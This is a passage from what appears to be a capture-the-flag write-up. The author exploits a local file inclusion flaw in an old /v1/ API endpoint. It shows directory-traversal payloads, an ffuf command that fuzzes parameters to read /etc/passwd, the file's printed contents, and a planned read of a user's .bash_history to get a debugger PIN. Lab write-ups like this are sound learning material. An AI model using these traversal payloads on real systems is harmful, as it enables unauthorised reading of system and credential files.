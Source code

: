 ```

Which indicates that there is an older version of the API which had an `LFI (Local File Inclusion)` in it.

We notice that in our previous API calls, we had `/v2/` in our URL, which means that there might be a `/v1/` on that same server.

What i had in mind at this point was to use `FFUF` and try to enumerate for more endpoints, but i decided to browse the website more.

To my surprise, i checked the url `http://<IP>:5000/api/` which displayed a list of endpoints

I tried all of the endpoints but this one was my best candidate for the LFI:

`http://<IP>:5000/api/v2/resources/books?id=1` so i tried it with `/v1/`

`http://<IP>:5000/api/v1/resources/books?id=1`

and it worked, it returned info about the book with the id of 1.

so i tried to exploit the LFI mentioned before, using id=1, i tried to fetch passwd:

`http://<IP>:5000/api/v1/resources/books?id=../../../../../../../../../../../etc/passwd`

but it didnt work, so `'id'` is probably not vulnerable to LFI, so now i decided to use `FFUF` to enumerate for more API parameters that vulnerable to LFI:

`ffuf -w wordlists/custom_wordlist-small.txt -u http://<IP>:5000/api/v1/resources/books?FUZZ=../../../../../../../../../../../etc/passwd`

I got back a very promising parameter which was vulnerable to LFI:

`http://<IP>:5000/api/v1/resources/books?FOUND_PARAMETER=../../../../../../../../../../../etc/passwd`
which returns:
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false sid:x:1000:1000:Sid,,,:/home/sid:/bin/bash sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```
so it worked, we do have an LFI vulnerable parameter.

At this point i had an LFI but i was thinking of brute forcing files using FFUF, but then i remembered the comment we found in the login page, it said that the debugger pin is in sid's bash history file (we know that sid is a user in that system because it was in the passwd file)

so we can assume that the mentioned file is in: `/home/sid/.bash_history`

lets try to fetch the file with our LFI:

```